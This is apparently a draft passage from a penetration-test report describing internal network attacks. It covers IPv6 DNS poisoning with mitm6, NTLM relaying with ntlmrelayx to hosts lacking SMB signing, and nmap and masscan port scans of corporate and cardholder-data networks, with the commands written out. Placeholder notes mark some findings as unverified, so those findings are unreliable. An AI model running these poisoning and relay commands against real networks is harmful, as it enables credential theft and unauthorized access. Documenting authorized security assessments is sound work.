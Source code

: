 ~~~

[+] Listening for events...
~~~

[>> TKTK unverified, check this] In addition to LLMNR and NBT-NS poisoning to coerce authentication, the assessor used the `mitm6` tool to perform IPv6 network poisoning. Windows releases since Vista prefer IPv6 by default and send out DHCPv6 broadcast requests to obtain IPv6 configuration information. As most internal networks use IPv4, `mitm6` exploits this behavior by sending a response to these requests with the attacking machine configured as a DNS server. When successful, this attack grants the attacker control of the victim's DNS, allowing authentication attacks similar to `responder`. [>> TKTK did it work??]

~~~
mitm6 -d tktk.domain
ntlmrelayx.py -6 -wh pscfirst.tktk.domain -tf hosts-no-signing.lst -l loot/ -debug
~~~

The assessor began to gather information using the `nmap` tool to scan networks to identify live hosts and their listening services. `nmap` is a port scanning tool that checks for listening services and probes them for information such as banners, version information, and even common vulnerabilities. The assessor reviewed the scan output for common vulnerabilities and attack vectors.

~~~
nmap -iL corp.lst -sVC --open -oA scans/nmap-default-sVC --min-hostgroup=128 --max-retries=1 -v
~~~

The assessor also performed an `nmap` scan of the cardholder data environment to reveal any direct connectivity accessible from the corporate network. This scan identified [>> TKTK four ports open on `TKTK` including SMB on TCP/445, a protocol that can be used for remote administration. Furthermore, the scan identified one additional port on .]

~~~
nmap -iL cde.lst -p- -v -sVC -oA scans/nmap-cde-sVC-allports  # smal cde
nmap -iL cde.lst -v -sVC -p21,22,23,25,53,80,111,121,135,139,443,445,1433,1521,2049,3306,3389,4786,5945,5985,8080,8443,9090,9443,9875,2093,49152,902,5900,2000,389,636,8000,10943 -oA scans/nmap-cde-sVC-top32     #big cde
~~~

With `responder` and `nmap` running in the background, the tester leveraged the `masscan` tool to scan for hosts with services such as SMB (TCP/445), RDP (TCP/3389), SSH (TCP/22), and MSSQL (TCP/1433) listening. This tool uses asynchronous transmissions withh a custom network stack to rapidly scan targets. The output of this tool provided a list of hosts for use in vulnerability scans.

~~~
masscan -iL corp.lst -p445 -oG scans/masscan-corp-445.gnmap
grep open scans/masscan-corp-445.gnmap | wc -l

masscan -iL corp.lst -p3389 -oG scans/masscan-corp-3389.gnmap
grep open scans/masscan-corp-3389.gnmap | wc -l

masscan -iL corp.lst -p22 -oG scans/masscan-corp-22.gnmap
grep -c open scans/masscan-corp-22.gnmap 

masscan -iL corp.lst -p1433 -oG scans/masscan-corp-1433.gnmap                        
grep open scans/masscan-corp-1433.gnmap | wc -l
~~~
